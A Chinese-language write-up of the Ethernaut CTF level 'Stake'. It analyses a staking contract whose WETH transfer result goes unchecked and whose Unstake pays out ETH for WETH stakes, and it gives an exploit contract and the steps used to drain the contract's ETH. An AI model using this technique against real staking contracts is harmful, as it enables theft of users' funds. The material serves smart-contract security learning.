




## Level_31.Stake

要求：

> 排空合约中的余额；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Stake {

    uint256 public totalStaked;
    mapping(address => uint256) public UserStake;
    mapping(address => bool) public Stakers;
    address public WETH;

    constructor(address _weth) payable{
        totalStaked += msg.value;
        WETH = _weth;
    }

    function StakeETH() public payable {
        require(msg.value > 0.001 ether, "Don't be cheap");
        totalStaked += msg.value;
        UserStake[msg.sender] += msg.value;
        Stakers[msg.sender] = true;
    }
    function StakeWETH(uint256 amount) public returns (bool){
        require(amount >  0.001 ether, "Don't be cheap");
        (,bytes memory allowance) = WETH.call(abi.encodeWithSelector(0xdd62ed3e, msg.sender,address(this)));
        require(bytesToUint(allowance) >= amount,"How am I moving the funds honey?");
        totalStaked += amount;
        UserStake[msg.sender] += amount;
        (bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender,address(this),amount));
        Stakers[msg.sender] = true;
        return transfered;
    }

    function Unstake(uint256 amount) public returns (bool){
        require(UserStake[msg.sender] >= amount,"Don't be greedy");
        UserStake[msg.sender] -= amount;
        totalStaked -= amount;
        (bool success, ) = payable(msg.sender).call{value : amount}("");
        return success;
    }
    function bytesToUint(bytes memory data) internal pure returns (uint256) {
        require(data.length >= 32, "Data length must be at least 32 bytes");
        uint256 result;
        assembly {
            result := mload(add(data, 0x20))
        }
        return result;
    }
}
```

#### 分析

这是一个质押合约，其中可以质押ETH和一个与ETH等价1:1的ERC20代币WETH，我们需要将其中所有余额排空；

同时还需要满足：

> * 质押合约中ETH余额需要大于0；
> * 总的质押数需要大于合约余额；
> * 成为质押者且余额为0；

` StakeETH() `函数中，没什么大问题；

` StakeWETH() `函数中，需要质押数额大于0.001ether，随后调用` 0xdd62ed3e `即` allowance(address,address) `查看授予的余额，但此处只接收了额度，但没有接收是否正确执行；随后调用` 0x23b872dd `即` transferFrom(addressA,addressB,uint256) `转账，扣的是` allowance[msg.sender] `中的值，实际是A转给B，这边貌似也没什么问题；

` Unstake() `函数中，将WETH和ETH混为一谈，只要用户有质押，就可以取ETH或者WETH，那么我们就可以质押WETH，然后换成ETH全部取出来；

所以我们需要做的就是：

1. 写一个攻击合约，利用其给题目合约授权尽可能多的` WETH `，并质押1` WETH `，同时质押0.0011` ETH `（模拟真实环境中受害者）；
2. 用自己的账户授权WETH，然后质押0.0011WETH；
3. 取回质押的ETH；


#### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp {
    Stake stake;
    address public WETH;

    constructor(address _stake, address _weth){
        stake = Stake(_stake);
        WETH = _weth;
    }

    function VictimStake() public payable {
        // 授权WETH
        (bool success, ) = address(WETH).call(abi.encodeWithSignature("approve(address,uint256)", address(stake), 100 ether));
        // 质押WETH
        stake.StakeWETH(1 ether);
        // 质押ETH
        stake.StakeETH{value:0.0011 ether}();
    }
}
```

获得WETH合约的地址：



使用Exp合约授权、质押1WETH和0.0011ETH：





用自己钱包给合约授权，质押0.0011WETH，并取出余额：


此时发现题目没过关，重新审查题目，需要合约ETH余额大于0，只需修改Exp合约，质押0.0011ETH改为0.0012就行，留最后0.0001在上面即可；



